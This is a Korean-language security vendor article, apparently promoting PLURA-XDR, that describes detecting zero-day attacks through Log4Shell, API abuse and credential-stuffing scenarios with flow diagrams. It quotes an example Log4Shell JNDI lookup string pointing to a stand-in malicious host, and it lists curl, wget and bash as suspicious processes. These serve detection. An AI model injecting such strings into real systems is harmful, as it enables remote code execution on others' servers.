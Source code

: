 ## 제로 데이(Zero-Day) 공격 탐지 및 대응 – 사례 및 시나리오

## 🔍 제로 데이 공격이란?  
**제로 데이 공격**(Zero-Day Attack)은 보안 취약점이 발견되었지만, 아직 공식적인 패치나 대응 방법이 제공되지 않은 상태에서 공격자가 이를 악용하는 사이버 공격입니다.  
기존 보안 시스템(SIEM, WAF, NDR 등)은 **이미 알려진 공격 패턴**(시그니처, 룰 기반 탐지)에 의존하기 때문에 제로 데이 공격을 탐지하기 어렵습니다.  

PLURA의 **웹 요청 본문 로그 분석 + EDR**을 활용하면, 제로 데이 공격을 보다 효과적으로 탐지하고 대응할 수 있습니다.  

---

## **제로 데이 공격 사례 및 탐지 시나리오**  

### **📌 사례 1: Log4j(Log4Shell) 취약점 공격 탐지**  

#### **공격 개요**  
2021년 12월, **Log4j**(Log4Shell) 취약점(CVE-2021-44228)이 발견되었습니다.  
- 공격자는 웹 애플리케이션의 **입력 필드**(검색창, 로그인 폼 등)에 **특정 문자열**(JNDI 요청 포함)을 삽입하여 원격 코드 실행(RCE, Remote Code Execution)을 수행할 수 있었습니다.  
- WAF 및 기존 보안 솔루션이 이 패턴을 알기 전까지는, 탐지가 어려운 전형적인 제로 데이 공격이었습니다.  

#### **Log4j 공격 흐름**  
```mermaid
graph TD
    A[공격자] -->|JNDI Payload 포함 요청| B[취약한 웹 애플리케이션]
    B -->|로그 저장| C[Log4j 취약점 존재]
    C -->|JNDI Lookup 수행| D[외부 악성 서버 접속]
    D -->|악성 코드 전송| E[웹 서버에서 RCE 발생]
    E -->|백도어 설치| F[공격 성공]

    %% PLURA 탐지 및 대응
    B -->|웹 요청 본문 분석| X[PLURA 탐지 시스템]
    X -->|JNDI 패턴 탐지| Y[공격 차단]
    E -->|프로세스 모니터링| Z[EDR 탐지 및 실행 차단]
```

#### ** PLURA 웹 요청 본문 분석 + EDR 탐지 방법**  
✅ **1) 웹 요청 본문 분석을 통해 악성 패턴 탐지**  
- PLURA는 **웹 요청 본문을 실시간 분석**하여 `jndi:ldap://malicious.com/exploit`와 같은 의심스러운 패턴을 탐지 가능.  
- 검색창, 유저 입력값, 헤더, API 요청 본문에서 **비정상적인 LDAP, RMI 호출 탐지 가능**.  

✅ **2) EDR 연계를 통한 공격 실행 탐지 및 차단**  
- 공격이 성공하여 원격 코드 실행(RCE)이 발생할 경우, PLURA EDR이 **커널 레벨에서 새로운 프로세스 생성 이벤트**(Fork, Execve) 탐지.  
- `curl`, `wget`, `bash` 등의 의심스러운 프로세스 실행 감지 후 자동 차단 가능.  

---

### **📌 사례 2: API 취약점 악용 (Zero-Day API Attack)**  

#### **API 공격 흐름**  
```mermaid
graph TD
    A[공격자] -->|API Brute Force 공격| B[취약한 API 서버]
    B -->|다른 사용자 계정으로 정보 요청| C[권한 검증 미흡]
    C -->|계정 데이터 유출| D[공격 성공]

    %% PLURA 탐지 및 대응
    B -->|웹 요청 본문 분석| X[PLURA 탐지 시스템]
    X -->|비정상적인 API 호출 패턴 탐지| Y[공격 차단]
    B -->|API 호출 횟수 분석| Z[비정상적 호출 탐지 및 차단]
```

✅ **1) API 요청 본문을 분석하여 비정상적인 요청 패턴 탐지**  
✅ **2) 웹 애플리케이션 로그와 사용자 행동 데이터를 상관 분석**  
✅ **3) EDR을 활용한 추가 보안 탐지**  

---

### **📌 사례 3: 크리덴셜 스터핑 공격 탐지**  

#### Credential Stuffing 공격 흐름
```mermaid
graph TD
    A[공격자] -->|유출된 계정 정보로 로그인 시도| B[로그인 서버]
    B -->|반복적인 로그인 실패| C[Brute Force 공격 감지 안됨]
    C -->|일부 계정 로그인 성공| D[계정 탈취]
    D -->|비밀번호 변경, 데이터 탈취| E[공격 성공]

    %% PLURA 탐지 및 대응
    B -->|웹 요청 본문 분석| X[PLURA 탐지 시스템]
    X -->|반복된 로그인 시도 탐지| Y[공격 차단]
    D -->|계정 사용 행위 분석| Z[비정상적 활동 감지 및 추가 인증 요청]
```

✅ **1) 로그인 요청 패턴을 실시간 분석하여 크리덴셜 스터핑 공격 탐지**  
✅ **2) AI 기반 이상 탐지 적용**  
✅ **3) 사용자 행동 분석 및 MFA 강제 적용 가능**  

---

### ** 결론: PLURA 웹 요청 본문 분석 + EDR을 통한 제로 데이 탐지 및 대응**  

✅ **기존 보안 시스템(WAF, SIEM, NDR, TI)은 알려진 공격 패턴만 탐지 가능하므로, 제로 데이 공격을 효과적으로 탐지하지 못함.**  
✅ **PLURA의 웹 요청 본문 분석은 새로운 공격 패턴을 실시간으로 분석하여, 알려지지 않은 제로 데이 공격 탐지 가능.**  
✅ **EDR 연계를 통해 커널 레벨에서 악성 프로세스 실행, 웹쉘 설치, 파일 변조(FIM) 등을 탐지하여 공격자의 추가 행위를 차단.**  
✅ **공격 흐름을 상관 분석하고 이상 행위를 탐지하여, Zero-Day 공격이 실시간으로 탐지 및 차단될 수 있도록 지원.**  

🔹 **PLURA-XDR은 웹 요청 본문 분석과 EDR을 결합하여 기존 보안 솔루션이 탐지하지 못하는 제로 데이 공격까지 대응할 수 있는 차세대 보안 플랫폼입니다.** 🚀  
```

